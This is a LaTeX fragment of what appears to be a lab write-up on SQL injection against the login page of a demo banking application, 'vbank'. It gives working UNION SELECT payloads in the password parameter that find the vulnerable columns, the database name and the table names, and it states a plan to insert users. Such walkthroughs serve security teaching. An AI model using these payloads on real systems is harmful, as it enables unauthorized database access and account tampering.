 \documentclass[12pt]{report}
\begin{document}
	\begin{figure}[H]
		\includegraphics[width=0.75\textheight,height=0.3\textheight]{images/union1.jpg}
		\caption{Getting vulnerable columns.}
	\end{figure}
	The system has welcomed us as 3 5 and 4! which are the number of vulnerable columns, where we are going to exploit.\\
	Now we are going to retrieve the database name, injecting following command:\\
	{\sf login.php?username=\&password='UNION SELECT 1,2,database(),4,5,6,7,8 --+}\\
	Where {\sf databse() is a function which returns the name of database.}
	\begin{figure}[H]
		\includegraphics[width=0.7\textheight,height=0.25\textheight]{images/databasename.jpg}
		\caption{Name of the database found.}
	\end{figure}
	We found that, instead of 3, it is showing 'vbank' which is the name of database.\\
	In order to find out table names we inject following:\\
	\textsf{login.php?username=\&password'UNION SELECT 1, 2, group\_concat(TABLE\_NAME), 4, 5, 6, 7, 8 FROM information\_schema.tables WHERE table\_schema=database()-{}-+}
	\begin{figure}[H]
		\includegraphics[width=0.75\textheight,height=0.3\textheight]{images/tablenames.jpg}
		\caption{Name of tables found.}
	\end{figure}
	Observing the tables, we can assume that the 'users' table has the information of users, and we are going to inject query for inserting users in this table.\\
	
\end{document}
